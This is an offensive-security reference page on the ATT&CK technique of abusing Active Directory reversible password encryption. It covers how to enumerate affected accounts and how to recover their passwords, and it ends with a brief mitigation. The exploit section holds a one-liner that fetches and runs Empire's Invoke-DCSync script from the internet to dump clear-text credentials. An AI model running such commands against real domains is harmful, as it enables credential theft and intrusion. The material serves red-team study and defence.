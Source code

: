 ```yaml
---
description: https://attack.mitre.org/techniques/T1556/005/
---
```


# Reversible Encryption

**ATT\&CK ID:** [T1556.005](reversible-encryption.md#undefined)

#### Permissions Required: <mark style="color:red;">Administrator</mark> **|** <mark style="color:green;">User</mark>

**Description**

An adversary may abuse Active Directory authentication encryption properties to gain access to credentials on Windows systems. The `AllowReversiblePasswordEncryption` property specifies whether reversible password encryption for an account is enabled or disabled. By default this property is disabled (instead storing user credentials as the output of one-way hashing functions) and should not be enabled unless legacy or other software require it.

If the property is enabled and/or a user changes their password after it is enabled, an adversary may be able to obtain the plaintext of passwords created/changed after the property was enabled. To decrypt the passwords, an adversary needs four components:

1. Encrypted password (`G$RADIUSCHAP`) from the Active Directory user-structure `userParameters`
2. 16 byte randomly-generated value (`G$RADIUSCHAPKEY`) also from `userParameters`
3. Global LSA secret (`G$MSRADIUSCHAPKEY`)
4. Static key hardcoded in the Remote Access Subauthentication DLL (`RASSFM.DLL`)

With this information, an adversary may be able to reproduce the encryption key and subsequently decrypt the encrypted password value.

An adversary may set this property at various scopes through Local Group Policy Editor, user properties, Fine-Grained Password Policy (FGPP), or via the ActiveDirectory PowerShell module. For example, an adversary may implement and apply a FGPP to users or groups if the Domain Functional Level is set to "Windows Server 2008" or higher. In PowerShell, an adversary may make associated changes to user settings using commands similar to `Set-ADUser -AllowReversiblePasswordEncryption $true`.

\[[Source](https://attack.mitre.org/techniques/T1556/005/)]

## Techniques - Enumeration

The following technique(s) describe method's of which to identify accounts which have `AllowReversiblePasswordEncryption` enabled.

### Active Directory

Active Directory Users and Computers can be utilized to manually identify accounts with `AllowReversiblePasswordEncryption` enabled.

![](../../../../.gitbook/assets/AD-Encryption.png)

### PowerShell

```powershell
Get-ADUser -filter {AllowReversiblePasswordEncryption -eq $True} -Properties "AllowReversiblePasswordEncryption"
```

![](../../../../.gitbook/assets/PS-Enumeration.png)

## Techniques - Exploit

### Invoke-DCSync

Performing a DCSync attack against the primary domain controller will reveal clear text credentials for accounts that have the flag `ENCRYPTEDTEXT_PASSWORD_ALLOWED` _enabled._

```
iex (iwr -usebasicparsing  https://raw.githubusercontent.com/BC-SECURITY/Empire/master/empire/server/data/module_source/credentials/Invoke-DCSync.ps1);Invoke-DCSync -AllData
```

![](../../../../.gitbook/assets/invoke-dcsync-enc.png)

![](<../../../../.gitbook/assets/dcsync-enc (1).png>)

## Mitigation

* Ensure that `AllowReversiblePasswordEncryption` property is set to disabled unless there are application requirements.

## Further Reading

**Dump Clear-Text Passwords:** [https://adsecurity.org/?p=2053](https://adsecurity.org/?p=2053)
